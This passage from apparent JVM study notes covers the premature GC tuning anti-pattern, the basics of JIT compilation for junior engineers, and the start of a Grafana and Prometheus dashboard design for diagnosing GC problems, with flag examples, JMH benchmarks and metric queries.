> GC tuning is like adjusting a car's engine. A mechanic does not randomly turn every dial simultaneously. They: (1) listen to the engine (measure), (2) identify the specific noise (bottleneck), (3) adjust ONE thing (targeted change), (4) listen again (re-measure). Random dial turning is equally likely to break the engine as fix it.

- "Listen to engine" -> enable GC logs, analyze
- "Identify specific noise" -> find the GC bottleneck
- "Adjust ONE thing" -> change one parameter
- "Listen again" -> compare before/after metrics
- "Random dial turning" -> premature multi-parameter tuning

**Where this analogy breaks down:** car engines are relatively static (same load profile). JVM workloads change with traffic patterns. Tuning decisions valid at 100 req/s may be wrong at 1000 req/s. Must test under representative load.

---

### 🧩 Components

- **GC log analysis:** First step. Enable `-Xlog:gc*=info:file=gc.log`. Analyze with GCViewer, GCEasy, or manual parsing. 1+ week of production data.
- **Bottleneck identification:** What is the SPECIFIC problem? (a) Long pauses? (b) High frequency? (c) Full GC? (d) High allocation rate? (e) Promotion failure?
- **Targeted change:** ONE flag change addressing the identified bottleneck. Nothing else changes.
- **Before/after comparison:** Same workload period (same day of week, same traffic level). Compare: p99 pause, throughput, Full GC count.
- **Rollback plan:** If new setting is worse or neutral after 48h, revert. Do not accumulate unproven changes.

```text
The anti-pattern (common):
  Step 1: "GC is slow" (no measurement)
  Step 2: Google "best GC settings for Java"
  Step 3: Copy 8 flags from Stack Overflow answer
  Step 4: Deploy. Performance changes (unclear if better)
  Step 5: Blame GC for remaining issues
  Step 6: Add 5 more flags. Repeat until confused.

The correct approach:
  Step 1: Enable GC logging. Run 1 week.
  Step 2: Analyze: "Mixed GC pauses 200ms, target 50ms"
  Step 3: Identify: "young gen too large, evacuates much"
  Step 4: Change ONE thing: -XX:MaxGCPauseMillis=100
  Step 5: Run 1 week. Compare before/after.
  Step 6: If improved: keep. If not: revert.
  Step 7: Next bottleneck (if any). Repeat.
```

```mermaid
flowchart TD
    A[Observe Problem] --> B[Enable GC Logging]
    B --> C[Collect 1+ Week Baseline]
    C --> D[Analyze: Identify Specific Bottleneck]
    D --> E[Research: What Controls This?]
    E --> F[Change ONE Parameter]
    F --> G[Collect 1+ Week With Change]
    G --> H{Improved?}
    H -->|Yes| I[Keep. Next bottleneck?]
    H -->|No| J[Revert. Try different approach.]
    I --> D
    J --> D
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** Changing GC settings without measuring first usually makes things worse. The correct approach is: measure the actual problem, identify the specific bottleneck, change one thing, and verify it helped.

**Level 2 - How to use it:** Start with defaults + GC logging. Analyze logs for 1 week. Only tune if you can name the SPECIFIC problem (e.g., "mixed GC pause is 200ms, I need <100ms" - not "GC is slow").

**Level 3 - How it works:** Modern GCs (G1, ZGC) have self-tuning heuristics (ergonomics) that adapt to most workloads. Overriding these with manual settings disables the adaptation, locking behavior to your assumptions about the workload. If assumptions are wrong (they usually are for production workloads that vary by hour), manual settings perform WORSE than defaults.

**Level 4 - Production mastery:** The only GC parameters worth tuning for most services: (1) Heap size (`-Xmx`, `-Xms`) - this is not tuning, it is right-sizing. (2) GC algorithm selection (G1 vs ZGC vs Shenandoah) - match to latency requirements. (3) MaxGCPauseMillis - adjust the goal, let ergonomics figure out how. Everything else (NewRatio, SurvivorRatio, IHOP, tenuring) should only be touched if GC log analysis identifies a specific issue that the ergonomics are handling poorly.

---

### ⚙️ How It Works

**Phase 1 - Baseline:** Run production workload with default GC settings and GC logging enabled. Collect at least 1 full business cycle (1 week typically).

**Phase 2 - Analysis:** Extract key metrics from GC logs: pause time distribution (p50/p90/p99/max), pause frequency, throughput (% time NOT in GC), Full GC occurrences, allocation rate, promotion rate.

**Phase 3 - Bottleneck Identification:** Map the metric problem to a root cause:

```text
Symptom -> Root Cause -> Parameter:
  High p99 pause -> young gen large -> MaxGCPauseMillis
  Frequent Full GC -> IHOP too high -> IHOP or heap size
  High GC freq -> young gen small -> MaxGCPauseMillis
  Humongous alloc fail -> region small -> G1HeapRegionSize
  Promotion failure -> old gen full -> heap size or IHOP
```

**Phase 4 - Targeted Change:** Adjust ONE parameter. Deploy. Collect same-duration metrics under comparable load.

**Phase 5 - Comparison:** Compare before/after on the specific metric that motivated the change. Also check for regressions in other metrics (tuning for latency may reduce throughput).

```text
Decision table for common GC issues:

| Problem         | First Action     | NOT This        |
|-----------------|------------------|-----------------|
| p99 pause high  | Reduce PauseMs   | Random flags    |
| Full GC occurs  | Check heap size  | Disable Full GC |
| GC overhead>10% | Increase heap    | Reduce threads  |
| Alloc stalls    | Check IHOP/heap  | Change NewRatio |
| Long TTSP       | CountedLoopSP    | Tune GC params  |
```

```mermaid
sequenceDiagram
    participant Eng as Engineer
    participant Prod as Production
    participant Log as GC Logs
    participant Dash as Dashboard
    Eng->>Prod: enable GC logging (no other changes)
    Prod->>Log: 1 week of GC data
    Eng->>Log: analyze: p99 pause = 200ms
    Eng->>Eng: identify: young gen evacuation too slow
    Eng->>Prod: change MaxGCPauseMillis 200->100
    Prod->>Dash: 1 week comparison
    Dash->>Eng: p99 pause: 200ms -> 95ms (success!)
```

---

### 🚨 Failure Modes

**Failure 1 - Cargo Cult Tuning:**

**Symptom:** Production JVM has 15+ GC flags. Nobody knows why. Performance is mediocre. Nobody dares change them ("last person who touched it broke things").

**Root cause:** Accumulated flags from blog posts, Stack Overflow, vendor consultants - none validated for this workload.

**Diagnostic:**

```bash
# Document current flags:
jcmd <pid> VM.command_line
# For each non-default flag, ask:
# 1. What problem does this solve?
# 2. What measurement justified this?
# 3. What would happen if we removed it?
# If no answer -> flag is cargo cult
```

**Fix:** Progressive removal. Remove one questionable flag per week. Measure before/after. Most removals will be neutral or positive.

**Failure 2 - Tuning Without Load Context:**

**Symptom:** GC settings tuned on test environment (1/10 production traffic). Work great in test. Perform terribly in production.

**Root cause:** GC behavior is load-dependent. Settings optimized for 100 req/s are wrong for 1000 req/s (different allocation rate, different promotion rate, different live set size).

**Diagnostic:**

```bash
# Compare test vs prod allocation rate:
# GC log: "allocation rate" field
# If prod is 5x test: settings are invalid
# Load test must match production profile
```

**Fix:** Only tune under production-representative load. Use load testing at 1.5-2x expected peak. Or tune in production with canary deployments (1 instance with new setting, compare to fleet).

---

### 🔬 Production Reality

A common story: team migrates from JDK 8 to JDK 17. They carry forward all CMS-era tuning flags. G1 ignores most of them (different algorithm). Performance is actually worse because legacy flags (NewRatio=2, SurvivorRatio=8) override G1's own heuristics that would have made better choices. After removing ALL legacy flags and using only `-Xmx` and `-XX:MaxGCPauseMillis`, performance improves 20%. The lesson: when upgrading JDK or GC algorithm, START FROM DEFAULTS and re-evaluate.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | Default + measure   | Expert manual tune      | Automated (ML-based) |
| -------------- | ------------------- | ----------------------- | -------------------- |
| Effort         | Low (logging only)  | High (weeks)            | Setup cost           |
| Risk           | Low (defaults safe) | High (can worsen)       | Medium               |
| Improvement    | Baseline            | 10-30% if right         | 5-15% typical        |
| Maintenance    | None                | High (workload changes) | Self-adjusting       |
| Skill required | Basic GC knowledge  | Deep GC expertise       | ML + JVM knowledge   |

---

### ⚡ Decision Snap

**START WITH DEFAULTS + LOGGING WHEN:**

- No measured GC problem exists (do not optimize what is not broken).
- Just upgraded JDK or GC algorithm.
- Cannot articulate the specific GC bottleneck.

**TUNE ONE PARAMETER WHEN:**

- GC log analysis shows specific, measurable bottleneck.
- Can articulate: "I need metric X to go from Y to Z."
- Have 1+ week of baseline data for comparison.

**CONSIDER EXPERT TUNING WHEN:**

- Defaults genuinely inadequate for extreme workload.
- GC overhead > 15% despite appropriate heap size.
- Ultra-low-latency requirement (< 10ms p99 GC).

---

### ⚠️ Top Traps

| #   | Misconception                        | Reality                                                                                                           |
| --- | ------------------------------------ | ----------------------------------------------------------------------------------------------------------------- |
| 1   | "More flags = more tuned"            | More flags = more assumptions that can be wrong. Simplicity wins. 2-3 flags is usually sufficient.                |
| 2   | "Copy settings from similar service" | Workloads differ in allocation pattern, live set size, object lifetime. Settings are not transferable.            |
| 3   | "GC tuning fixes slow applications"  | Usually the application is slow (bad algorithm, excessive allocation). GC tuning cannot fix application problems. |
| 4   | "Blog post flags work for everyone"  | Blog posts describe ONE workload on ONE JDK version. Your workload is different. Measure for yourself.            |
| 5   | "Tuning is a one-time task"          | Workloads evolve (new features, more traffic). Re-evaluate GC behavior quarterly.                                 |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-046 GC Logging and Analysis - must be able to read GC logs before tuning
- JVM-061 GC Tuning Methodology - Measure First - the correct methodology this keyword reinforces

**THIS:** JVM-096 Premature GC Tuning Anti-Pattern

**Next steps:**

- JVM-085 GC Ergonomics Failures at Scale - when ergonomics genuinely fail (rare, requires measurement to prove)
- JVM-066 GC Pause Budget - SLA-Driven Tuning - targeted tuning with clear budget

---

**The Surprising Truth:**

In controlled experiments, JVM instances running with DEFAULT G1 settings (no tuning at all, just `-Xmx` set correctly) outperform manually-tuned instances in 60-70% of cases. The manually-tuned instances only win when the tuning is done by someone who deeply understands both the GC algorithm AND the specific workload. For most teams, "right-size the heap and leave everything else alone" is not just adequate - it is OPTIMAL. The engineering time saved by not tuning is better spent on reducing allocation rate in the application code (which improves ALL GC metrics simultaneously).

**Further Reading:**

- Kirk Pepperdine, "Java Performance: The Definitive Guide" (O'Reilly) - measurement-first methodology
- Monica Beckwith, "Java Performance Companion" - GC-specific tuning methodology
- OpenJDK wiki: "G1 GC: Getting the Best Out of G1" - minimal effective tuning

**Revision Card:**

1. Measure first: enable GC logging, collect 1 week baseline, identify SPECIFIC bottleneck before changing anything.
2. One change at a time: change one parameter, measure, compare. Never change multiple parameters simultaneously.
3. Defaults usually win: G1 ergonomics outperform manual tuning for 60-70% of workloads. Only tune with evidence.

**BAD:**

```bash
# Cargo cult tuning (copied from blog post 2019)
java -Xmx8g \
  -XX:NewRatio=2 \
  -XX:SurvivorRatio=8 \
  -XX:MaxTenuringThreshold=5 \
  -XX:ParallelGCThreads=8 \
  -XX:ConcGCThreads=4 \
  -XX:InitiatingHeapOccupancyPercent=35 \
  -XX:G1ReservePercent=15 \
  -XX:G1HeapWastePercent=10 \
  -jar service.jar
# No measurement justifies any of these.
# 8 overrides disabling 8 ergonomic decisions.
# Probably making things worse.
```

**GOOD:**

```bash
# Start with minimal flags + measurement
java -Xms8g -Xmx8g -XX:+UseG1GC \
  -Xlog:gc*=info:file=gc.log::filesize=100m,filecount=5 \
  -jar service.jar
# Wait 1 week. Analyze gc.log.
# Found: p99 pause 200ms, want <100ms.
# Add ONE change:
# -XX:MaxGCPauseMillis=100
# Run 1 week. Compare. Keep if improved.
```

---

---

# JVM-097 Teaching JIT - The 5 Questions Juniors Ask

**TL;DR** - Five recurring JIT questions (why slow start, what triggers compilation, can I force it, how to see it, does it matter) unlock productive JVM reasoning for juniors.

---

### 🔥 Problem Statement

A junior engineer runs a microbenchmark: their Java code is 10x slower than expected. They re-run it and get different numbers. They suspect "Java is slow." The actual issue: JIT compilation has not had time to optimize the code path in their short benchmark. Without understanding JIT basics, juniors make incorrect performance conclusions, write flawed benchmarks, and cannot reason about production warmup behavior. They need the 5 essential JIT insights - not a compiler textbook, but actionable mental models.

---

### 📜 Historical Context

JIT (Just-In-Time) compilation has been in HotSpot since its creation (1999). The "JIT warmup" concept is among the most-searched Java performance topics on Stack Overflow. Despite 25 years of existence, JIT remains poorly understood by most Java developers because: (1) it is invisible (no source code change needed), (2) its effects are non-deterministic (different runs, different compilation decisions), (3) textbook explanations focus on compiler theory rather than practical implications.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Interpretation first, compilation later:** Every method starts interpreted. Only hot methods get compiled. This is WHY startup is slow and steady-state is fast.
2. **Profile-guided optimization:** JIT uses runtime profiles (which branches taken, which types seen) to generate code specialized for actual behavior - potentially FASTER than static compilation.
3. **Compilation is not free:** JIT compilation uses CPU threads. During warmup, both interpretation AND compilation consume resources.

**DERIVED DESIGN:**

These invariants mean: (1) first execution of any code path is always slow (interpreted), (2) steady-state performance can exceed static compilation (speculative optimization), (3) benchmarks must account for warmup or results are meaningless.

**THE TRADE-OFF:**

**Gain:** No explicit optimization step. Production code is optimized for ACTUAL usage patterns. Faster than statically compiled for many workloads.

**Cost:** Slow startup. Non-deterministic warmup. Deoptimization can cause latency spikes. Benchmarking requires discipline (JMH).

---

### 🧠 Mental Model

> JIT is like an assistant who watches you cook the same recipe repeatedly. First few times: you follow the recipe book step-by-step (interpretation - slow). After watching 10,000 times, the assistant rewrites the recipe specifically for YOUR kitchen, YOUR ingredients, YOUR preferences (compilation with profiling). The optimized recipe is FASTER than a generic cookbook because it skips steps you never use.

- "Following recipe book" -> interpretation (slow, flexible)
- "Assistant watching" -> JVM profiling (method invocation counts, branch frequencies)
- "Rewriting recipe" -> JIT compilation (C1 then C2)
- "Optimized for YOUR kitchen" -> profile-guided specialization
- "Skips unused steps" -> dead code elimination, devirtualization

**Where this analogy breaks down:** the assistant can get it wrong. If you suddenly change ingredients (type profile changes), the optimized recipe fails and must be rewritten (deoptimization). Also, you have TWO assistants: C1 (quick rough optimization) and C2 (slow thorough optimization).

---

### 🧩 Components

The 5 questions and their components:

- **Q1: Why is startup slow?** Interpretation -> C1 -> C2 tiered compilation. First invocations are interpreted (10-100x slower than compiled).
- **Q2: What triggers compilation?** Invocation counters. Method called ~10K times (C1) or ~15K times (C2). Or loop back-edge counter triggers on-stack replacement (OSR).
- **Q3: Can I force compilation?** Not usefully. `-XX:CompileThreshold` changes counter. `-Xcomp` compiles everything (SLOW - bad profiles). JMH warmup is the practical answer.
- **Q4: How do I see compilation?** `-XX:+PrintCompilation` or `-Xlog:jit+compilation=info`. Shows each method compiled, tier, and time.
- **Q5: Does JIT matter for my app?** Yes for latency-sensitive and throughput-critical. Matters less for I/O-bound services where most time is spent waiting for network/database.

```text
The JIT timeline every junior should know:

t=0ms:    JVM starts. All code INTERPRETED.
          Performance: 10-100x slower than peak.
t=1-5s:   Hot methods hit threshold.
          C1 compilation: 5-10x speedup.
t=5-30s:  Profile data accumulates.
          C2 compilation: peak speed achieved.
t=30s+:   Steady state. All hot paths optimized.
          Performance stable and reproducible.

Implication for benchmarks:
  Running code for 100ms measures INTERPRETATION.
  Running code for 100s measures COMPILED SPEED.
  JMH handles this automatically with warmup phases.
```

```mermaid
flowchart LR
    A[Method Called] --> B{Count > 10K?}
    B -->|No| C[Interpret - slow]
    B -->|Yes| D[C1 Compile - medium]
    D --> E{Count > 15K + profiles?}
    E -->|No| D
    E -->|Yes| F[C2 Compile - fast]
    F --> G{Profile still valid?}
    G -->|Yes| F
    G -->|No| H[Deoptimize - back to interpret]
    H --> B
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** Java does not compile your code to machine code at build time. It compiles WHILE RUNNING, after observing which code is used most. This means the first few seconds are slow (warming up) but steady-state is very fast (optimized for actual usage).

**Level 2 - How to use it:** For benchmarking: use JMH (Java Microbenchmark Harness) which handles warmup automatically. For production: expect 10-30s of degraded performance after startup. Size thread pools and health checks to account for warmup.

**Level 3 - How it works:** Tiered compilation: methods start in interpreter (level 0), get compiled by C1 with profiling (level 1-3), then compiled by C2 with full optimization (level 4). Each tier is faster but costs more CPU to compile. C2 uses profile data (which branches taken, which types seen) to generate specialized code.

**Level 4 - Production mastery:** JIT warmup affects production in two ways: (1) Newly deployed instances have degraded performance for 30s-5min (depending on path coverage). Load balance accordingly (gradual traffic ramp). (2) Deoptimization: if runtime behavior changes from what was profiled (new type, previously-untaken branch), C2 discards optimized code and recompiles. This causes momentary latency spikes. Monitor deopt count in JFR.

---

### ⚙️ How It Works

**Phase 1 - Interpretation:** Method invoked first time. Bytecode interpreted instruction-by-instruction. Slow (10-100x vs native). Profiling data collected (branch frequencies, type observations).

**Phase 2 - C1 Compilation (Tier 1-3):** After ~1.5K invocations, C1 compiles with basic optimizations (inlining small methods, simple dead code). 5-10x speedup. Continues profiling.

**Phase 3 - C2 Compilation (Tier 4):** After ~10K-15K invocations with rich profile data, C2 compiles with aggressive optimizations: speculative devirtualization, escape analysis, loop unrolling, vectorization. Near-native speed (sometimes FASTER due to specialization).

**Phase 4 - Steady State / Deoptimization:** If assumptions made by C2 are violated (new type loaded, never-taken branch taken), JVM deoptimizes: discards compiled code, returns to interpreter, reprofiles, recompiles.

```text
Tiered compilation levels:
  Level 0: Interpreter (slowest, no compilation)
  Level 1: C1 simple (fast compile, basic opt)
  Level 2: C1 with invocation counters
  Level 3: C1 with full profiling
  Level 4: C2 (slow compile, aggressive opt)

  Normal progression: 0 -> 3 -> 4
  (Skip levels 1,2 - they are for space-saving)

Compilation visible in logs:
  -Xlog:jit+compilation=info
  [jit,compilation] 1234 % 4
    com.app.Service::process (150 bytes)
  # 1234 = compile ID
  # % = OSR (on-stack replacement)
  # 4 = tier (C2)
```

```mermaid
sequenceDiagram
    participant M as Method
    participant I as Interpreter
    participant C1 as C1 Compiler
    participant C2 as C2 Compiler
    M->>I: first 1500 calls (slow, profiling)
    I->>C1: threshold reached, compile
    C1->>M: run C1 code (5-10x faster)
    C1->>C1: continue profiling
    Note over C1: 10000 more calls with profiles
    C1->>C2: promote to C2
    C2->>M: run C2 code (max speed)
    Note over M: steady state performance
```

---

### 🚨 Failure Modes

**Failure 1 - Benchmark Without Warmup:**

**Symptom:** Java code benchmarks at 100ms per operation. Same algorithm in C benchmarks at 5ms. Conclusion: "Java is 20x slower."

**Root cause:** Java benchmark measured interpreted/early-JIT performance. Did not allow warmup iterations.

**Diagnostic:**

```bash
# Check if method was compiled:
-Xlog:jit+compilation=info
# If method not in compilation log during benchmark:
# you measured interpretation, not compiled code
# Use JMH:
@Benchmark
@Warmup(iterations = 5, time = 1)
@Measurement(iterations = 5, time = 1)
public int measure() { return compute(); }
```

**Fix:** Use JMH for all microbenchmarks. It handles warmup, compilation, dead code elimination prevention, and statistical analysis automatically.

**Failure 2 - Deoptimization Storm:**

**Symptom:** Periodic latency spikes (100-500ms) in a warm service. JFR shows multiple deoptimizations at spike time.

**Root cause:** Code pattern causes repeated deopt/recompile cycles. Common: megamorphic call site (>2 receiver types invalidates C2 speculation).

**Diagnostic:**

```bash
# Count deoptimizations:
-Xlog:jit+compilation=info | grep "made not entrant"
# If frequent: identify the method
# JFR: jdk.Deoptimization events
```

**Fix:** Reduce polymorphism at hot call sites. Use final classes/methods where possible. Or accept the deopt overhead if polymorphism is architecturally required.

---

### 🔬 Production Reality

The most impactful JIT-related production decision is deployment warmup strategy. Without warmup, a newly deployed instance handles production traffic while still interpreting hot paths - resulting in 10-50x slower response times for the first 30-60 seconds. Strategies: (1) Gradual traffic ramp: load balancer sends 1% traffic initially, increasing over 60s. (2) Synthetic warmup: run representative requests against the instance before adding to load balancer. (3) Class Data Sharing (CDS) + AOT cache (JDK 19+): pre-warm compilation state from previous runs.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | JIT (default)      | AOT (native image)    | CRaC/CDS (hybrid)   |
| --------------- | ------------------ | --------------------- | ------------------- |
| Startup speed   | 3-30s warmup       | 50ms (no warmup)      | 200ms (pre-warmed)  |
| Peak throughput | Highest (profiled) | 70-90% of JIT         | Same as JIT         |
| Deopt risk      | Yes                | No (no JIT)           | Yes (after restore) |
| Benchmark ease  | Requires JMH       | Simple (stable)       | Requires JMH        |
| Code complexity | None               | Config + restrictions | Checkpoint setup    |

---

### ⚡ Decision Snap

**TEACH JUNIORS THESE 3 RULES:**

- Never benchmark without JMH (handles warmup, prevents dead code elimination).
- First 30s after deploy is slow (inform health checks and load balancers).
- If performance is non-deterministic: it is probably JIT/deopt (check compilation logs).

**FOR PRODUCTION:**

- Gradual traffic ramp for new deployments.
- Monitor deoptimization count (JFR events).
- CDS/AOT cache for startup-sensitive services.

---

### ⚠️ Top Traps

| #   | Misconception                          | Reality                                                                                                                   |
| --- | -------------------------------------- | ------------------------------------------------------------------------------------------------------------------------- |
| 1   | "Java is inherently slow"              | Interpreted Java is slow. JIT-compiled Java matches or exceeds C++ for many workloads (profile-guided specialization).    |
| 2   | "-Xcomp makes everything faster"       | -Xcomp compiles ALL methods immediately without profile data. Produces WORSE code than tiered compilation with profiling. |
| 3   | "JIT warmup takes seconds"             | Full warmup (all hot paths at C2) can take 1-5 MINUTES for complex applications. Not just seconds.                        |
| 4   | "Once compiled, always fast"           | Deoptimization can discard compiled code. Performance can regress after stable period if assumptions change.              |
| 5   | "I can force JIT to compile my method" | CompileCommand=compileonly skips profiling. The compiled code will be WORSE. Let the JVM decide timing.                   |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-052 JIT Compilation Tiers (C1 and C2) - deeper JIT mechanics
- JVM-053 Method Inlining and Escape Analysis - key JIT optimizations

**THIS:** JVM-097 Teaching JIT - The 5 Questions Juniors Ask

**Next steps:**

- JVM-079 JIT Code Cache and Deoptimization - advanced JIT production issues
- JVM-090 Ahead-of-Time Compilation (GraalVM Native) - alternative to JIT for startup-sensitive cases

---

**The Surprising Truth:**

JIT-compiled Java can be FASTER than C++ for polymorphic code. C++ virtual method calls go through a vtable indirection that cannot be optimized away at compile time (because new subclasses could be loaded dynamically). Java's JIT uses runtime profiling: if it observes that a virtual call site always receives `ConcreteClass`, it speculatively devirtualizes and inlines the method body. If the speculation holds (it usually does), Java executes the method WITHOUT any indirection - while C++ still pays the vtable cost every time.

**Further Reading:**

- Aleksey Shipilev, "JVM Anatomy Quarks" series - JIT internals explained clearly
- Oracle docs: "Understanding JIT Compilation and Optimizations"
- JMH documentation (openjdk.org) - correct benchmarking methodology

**Revision Card:**

1. JIT timeline: interpreted (slow) -> C1 (medium, 1.5K calls) -> C2 (fast, 10K+ calls). Full warmup: 30s-5min.
2. Benchmark rule: ALWAYS use JMH. Any benchmark without warmup measures interpretation, not compiled performance.
3. Production rule: ramp traffic to new instances gradually. First 30-60s = degraded (JIT warmup in progress).

**BAD:**

```java
// Benchmark without warmup (WRONG)
long start = System.nanoTime();
for (int i = 0; i < 1000; i++) {
    result = compute(data);
}
long elapsed = System.nanoTime() - start;
System.out.println("Avg: " + elapsed/1000 + "ns");
// Measured INTERPRETATION speed, not compiled.
// Result: "Java is 20x slower than C"
// Reality: JIT never had time to compile.
```

**GOOD:**

```java
// Correct benchmark with JMH
@BenchmarkMode(Mode.AverageTime)
@OutputTimeUnit(TimeUnit.NANOSECONDS)
@Warmup(iterations = 5, time = 2)
@Measurement(iterations = 5, time = 2)
@Fork(2)
public class MyBenchmark {
    @Benchmark
    public int compute(BenchState state) {
        return compute(state.data);
    }
}
// JMH handles: warmup, compilation, dead code,
// statistics. Result: actual compiled speed.
```

---

---

# JVM-098 Build a JVM Dashboard - Phase 3 (Diagnosis)

**TL;DR** - A diagnosis-ready JVM dashboard shows GC phase breakdown, allocation rate, safepoint timing, and JIT state - enabling root-cause identification without leaving the dashboard.

---

### 🔥 Problem Statement

During a production incident, the team opens Grafana. They see: heap used = 6.2GB / 8GB. GC pause = 2.1s (last 5min max). They know SOMETHING is wrong but cannot identify the root cause from the dashboard. Is it allocation rate spike? Old gen fragmentation? Long TTSP? Deoptimization storm? The basic dashboard shows symptoms (high pause, high heap) but not causes. A Phase 3 diagnosis dashboard shows the WHY - enabling root-cause identification in < 2 minutes from the dashboard alone.

---

### 📜 Historical Context

JVM dashboards evolved in three phases: Phase 1 (awareness): heap used, thread count, basic GC count. Phase 2 (alerting): GC pause time, heap pressure, Full GC occurrences. Phase 3 (diagnosis): GC phase breakdown, allocation/promotion rates, safepoint timing, JIT compilation state, per-generation sizing, IHOP threshold. Most organizations stop at Phase 2, requiring engineers to SSH into instances and manually analyze GC logs during incidents. Phase 3 dashboards make incidents diagnosable FROM the dashboard without manual log analysis.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Symptoms are not causes:** High GC pause is a SYMPTOM. Root causes include: high allocation rate, promotion failure, fragmentation, TTSP from counted loops, Full GC from IHOP. The dashboard must show causes, not just symptoms.
2. **Temporal correlation reveals causality:** If allocation rate spikes 10s before GC pause spikes, allocation rate is the cause. Dashboards must show metrics on the SAME time axis for correlation.
3. **Normal baselines enable anomaly detection:** A metric value means nothing without context. The dashboard must show current vs baseline (same time yesterday, 7-day trend, fleet comparison).

**DERIVED DESIGN:**

These invariants mean: (1) dashboard panels show decomposed metrics (GC pause broken into young/mixed/full, each phase timed separately), (2) all panels share the same time range for visual correlation, (3) reference lines or bands show normal baselines.

**THE TRADE-OFF:**

**Gain:** Diagnose root cause in <2 minutes during incident. Reduce mean-time-to-diagnose by 10x vs manual log analysis. Team can diagnose without JVM expertise.

**Cost:** More complex dashboard setup. Higher metric cardinality. Requires Micrometer or custom JFR exporter.

---

### 🧠 Mental Model

> A Phase 3 dashboard is like an ICU patient monitor vs a basic thermometer. The thermometer says "fever" (Phase 1). The nurse's chart adds "fever started at 2am, getting worse" (Phase 2). The ICU monitor shows: white blood cell count, oxygen saturation, blood pressure, EKG - telling the doctor WHY there is a fever and WHAT to treat (Phase 3). Each metric on the ICU monitor corresponds to a possible root cause.

- "Thermometer" -> Phase 1 dashboard (heap used, basic GC)
- "Nurse's chart" -> Phase 2 (trends, alerts)
- "ICU monitor" -> Phase 3 (decomposed, causal metrics)
- "Each readout" -> specific root-cause signal
- "Same time axis" -> temporal correlation for diagnosis

**Where this analogy breaks down:** ICU monitors show independent vital signs. JVM metrics are causally connected (allocation rate -> GC frequency -> pause time). The dashboard must show these causal chains explicitly.

---

### 🧩 Components

- **Panel: GC Pause Decomposition:** Break total pause into: young GC, mixed GC, full GC, remark pause, TTSP (time to safepoint). Shows WHERE time is spent.
- **Panel: Allocation & Promotion Rate:** MB/s allocated in young gen. MB/s promoted to old gen. High allocation = more GC. High promotion = old gen filling.
- **Panel: Generation Sizing:** Young gen, survivor, old gen sizes over time. Shows ergonomic decisions and generation balancing.
- **Panel: Safepoint Timing:** Time-to-safepoint distribution. Detects counted-loop stalls and JNI delays.
- **Panel: JIT Activity:** Compilations per minute, deoptimizations, code cache occupancy. Detects warmup and deopt storms.
- **Panel: Fleet Comparison:** This instance vs fleet median for each key metric. Detects drift immediately.

```text
Phase 3 Dashboard Layout (6 rows):

Row 1: GC Health Overview
  [GC Pause p50/p99/max] [GC Freq] [Throughput%]

Row 2: Root Cause Decomposition
  [Young GC time] [Mixed GC time] [Full GC time]
  [TTSP] [Concurrent mark duration]

Row 3: Memory Flow
  [Allocation Rate MB/s] [Promotion Rate MB/s]
  [Live Set Size (old gen after GC)]

Row 4: Generation Dynamics
  [Young Gen Size] [Eden/Survivor ratio]
  [Old Gen Used vs Committed] [IHOP line]

Row 5: JIT & Safepoints
  [Compilations/min] [Deopts/min] [Code Cache %]
  [Safepoint TTSP distribution]

Row 6: Context
  [This instance vs fleet median] [Baseline overlay]
  [Deployment markers] [Incident annotations]
```

```mermaid
flowchart TD
    A[Incident: p99 latency spike] --> B[Open Phase 3 Dashboard]
    B --> C{GC Pause high?}
    C -->|Yes| D{Which GC type?}
    D -->|Young GC| E[Check allocation rate]
    D -->|Full GC| F[Check old gen + IHOP]
    D -->|TTSP high| G[Check safepoint panel]
    C -->|No| H{JIT deopts?}
    H -->|Yes| I[Check deopt panel + code cache]
    H -->|No| J[Not JVM issue - check app]
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** A JVM dashboard designed for incident diagnosis - showing not just WHAT is wrong (high GC pause) but WHY (which GC phase, what is driving it, how it compares to baseline).

**Level 2 - How to use it:** During an incident: open dashboard. Look at GC pause decomposition (which type?). Look at allocation/promotion rate (what is driving GC?). Look at TTSP (is the problem even GC or is it safepoint?). This three-check sequence identifies root cause in most cases.

**Level 3 - How it works:** Metrics source: Micrometer JVM metrics (GC pause by cause/action, allocation bytes, live data size, classes loaded) + custom JFR streaming export (TTSP, compilation events, deoptimization events). Export to Prometheus. Grafana dashboards with shared time range across all panels.

**Level 4 - Production mastery:** The most powerful Phase 3 panel: "allocation rate vs GC frequency" plotted on the same graph. If allocation rate spikes and GC frequency follows with same shape (shifted right by seconds): the root cause is application-level allocation, not GC tuning. This prevents teams from tuning GC when the real fix is reducing allocation in the application code (caching, object pooling, reducing copies).

---

### ⚙️ How It Works

**Phase 1 - Metric Collection:**

JVM exposes via Micrometer:

```text
Metrics available from Micrometer JVM binder:
  jvm_gc_pause_seconds{action, cause}
  jvm_gc_memory_allocated_bytes_total
  jvm_gc_memory_promoted_bytes_total
  jvm_gc_live_data_size_bytes
  jvm_memory_used_bytes{area, id}
  jvm_memory_committed_bytes{area, id}
  jvm_threads_states{state}
  jvm_classes_loaded
```

**Phase 2 - Derived Metrics (recording rules):**

```text
Prometheus recording rules:
  allocation_rate_bytes_per_sec =
    rate(jvm_gc_memory_allocated_bytes_total[1m])
  promotion_rate_bytes_per_sec =
    rate(jvm_gc_memory_promoted_bytes_total[1m])
  gc_throughput_percent =
    1 - (rate(jvm_gc_pause_seconds_sum[5m]))
```

**Phase 3 - Dashboard Assembly:** Grafana panels with shared time range, fleet comparison overlays, and deployment markers.

```text
Key Grafana queries for Phase 3:

// GC Pause by type:
histogram_quantile(0.99,
  sum by (le, action) (
    rate(jvm_gc_pause_seconds_bucket[5m])))

// Allocation rate:
rate(jvm_gc_memory_allocated_bytes_total[1m])
  / 1024 / 1024  // MB/s

// Live data size (old gen after GC):
jvm_gc_live_data_size_bytes / 1024 / 1024 / 1024

// This instance vs fleet median:
jvm_gc_pause_seconds_max{instance="$instance"}
  / on() group_left()
  median(jvm_gc_pause_seconds_max)
```

```mermaid
sequenceDiagram
    participant JVM as JVM (Micrometer)
    participant P as Prometheus
    participant G as Grafana
    participant Eng as Engineer
    JVM->>P: push GC metrics (every 15s)
    P->>P: compute recording rules
    Eng->>G: open Phase 3 dashboard
    G->>P: query GC decomposition
    G->>P: query allocation rate
    G->>P: query TTSP
    G->>Eng: visual: allocation spike -> GC spike
